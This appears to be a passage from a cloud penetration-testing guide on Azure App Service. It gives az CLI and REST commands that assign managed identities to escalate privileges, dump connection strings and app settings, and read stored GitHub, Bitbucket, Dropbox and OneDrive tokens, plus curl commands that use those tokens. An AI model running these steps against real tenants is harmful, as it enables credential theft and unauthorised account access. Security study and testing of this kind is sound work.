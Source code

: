 ### Microsoft.Web/sites/write, Microsoft.Web/sites/read, Microsoft.ManagedIdentity/userAssignedIdentities/assign/action

These permissions allow to **assign a managed identity** to the App service, so if an App service was previously compromised this will allow the attacker to assign new managed identities to the App service and **escalate privileges** to them.

```bash
az webapp identity assign --name <app-name> --resource-group <res-group> --identities /subscriptions/<subcripttion-id>/resourceGroups/<res_group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<managed-identity-name>
```

### Microsoft.Web/sites/config/list/action

This permission allows to list the **connection strings** and the **appsettings** of the App service which might contain sensitive information like database credentials.

```bash
az webapp config connection-string list --name <name> --resource-group <res-group>
az webapp config appsettings list --name <name> --resource-group <res-group>
```

### Read Configured Third Party Credentials

Running the following command it's possible to **read the third party credentials** configured in the current account. Note that if for example some Github credentials are configured in a different user, you won't be able to access the token from a different one.

```bash
az rest --method GET \
  --url "https://management.azure.com/providers/Microsoft.Web/sourcecontrols?api-version=2024-04-01"
```

This command returns tokens for Github, Bitbucket, Dropbox and OneDrive.

Here you have some command examples to check the tokens:

```bash
# GitHub – List Repositories
curl -H "Authorization: token <token>" \
     -H "Accept: application/vnd.github.v3+json" \
     https://api.github.com/user/repos

# Bitbucket – List Repositories
curl -H "Authorization: Bearer <token>" \
     -H "Accept: application/json" \
     https://api.bitbucket.org/2.0/repositories

# Dropbox – List Files in Root Folder
curl -X POST https://api.dropboxapi.com/2/files/list_folder \
     -H "Authorization: Bearer <token>" \
     -H "Content-Type: application/json" \
     --data '{"path": ""}'

# OneDrive – List Files in Root Folder
curl -H "Authorization: Bearer <token>" \
     -H "Accept: application/json" \
     https://graph.microsoft.com/v1.0/me/drive/root/children
```
